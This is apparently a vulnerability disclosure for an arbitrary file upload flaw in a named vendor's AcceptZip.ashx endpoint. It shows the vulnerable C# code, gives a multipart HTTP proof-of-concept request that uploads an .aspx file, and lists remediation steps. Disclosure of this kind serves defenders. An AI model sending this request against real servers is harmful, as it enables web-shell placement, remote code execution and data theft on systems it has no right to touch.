![image-20250225200601224](./assets/image-20250225200601224.png)

![image-20250225200637273](./assets/image-20250225200637273.png)

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in AcceptZip.ashx Endpoint

### Summary:
The code in the ProcessRequest method of the AcceptZip.ashx endpoint on the vendor's website contains a vulnerability that allows for arbitrary file uploads.

### Affected Endpoint:
/AcceptZip.ashx

### Vulnerability Type: 

Arbitrary File Upload to Remote Code Execution (RCE)

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    string summers = "一键签收";//接口摘要
    JsonStr jsonResult = new JsonStr();
    try
    {
        string foder = "/sign/Img";
        string uploadPath = HttpContext.Current.Server.MapPath(foder) + "\\";
        string Image1 = "";
        string urlPath = HttpContext.Current.Request.Url.Host + ":" + HttpContext.Current.Request.Url.Port + foder + "/";

        if (!Directory.Exists(uploadPath))//如果文件夹不存在
        {
            Directory.CreateDirectory(uploadPath);//生成文件夹
        }
        HttpFileCollection filecount = context.Request.Files;
        string[] Image;
        int count = filecount.Count;
        Image = new string[count];
        String s = context.Request.Headers.ToString();  // 获得通过HTTP协议协议头传过来的的json数据
        String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);

        Log.Debug(summers, objStr);
        if (objStr.Length == 0)     //objStr.Length == 0
        {
            jsonResult.Msg_code = ReturnCode.paramater_error;
            jsonResult.Msg_info = "\"未传参数\"";
        }
        else
        {
            try
            {
                if (count > 0)
                {
                    for (int i = 0; i < count; i++)
                    {
                        string fileName = DateTime.Now.ToString("yyyyMMddhhmmssfff") + i + Path.GetExtension(filecount[i].FileName);
                        filecount[i].SaveAs(uploadPath + fileName); //任意文件上传漏洞
                        Image[i] = "http://" + urlPath + fileName;
                    }
                }
```

### Proof of Concept (PoC):
```http
POST /AcceptZip.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability by uploading malicious files, such as web shells, which can lead to remote code execution on the server. This can result in unauthorized access, data leakage, and potential system compromise.

### Recommendation:
1. Validate file uploads by checking file extensions, content types, and implementing secure file upload practices.
2. Restrict file upload permissions to specific directories and avoid executing uploaded files.
3. Regularly monitor and audit file upload activities on the server.

### Conclusion:
The arbitrary file upload vulnerability in the AcceptZip.ashx endpoint poses a significant security risk to the vendor's website, potentially leading to remote code execution. It is crucial to address this issue promptly to prevent exploitation by malicious actors.

### References:
- OWASP File Upload Cheat Sheet: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Microsoft Docs on Secure File Upload: https://docs.microsoft.com/en-us/aspnet/core/mvc/models/file-uploads?view=aspnetcore-6.0
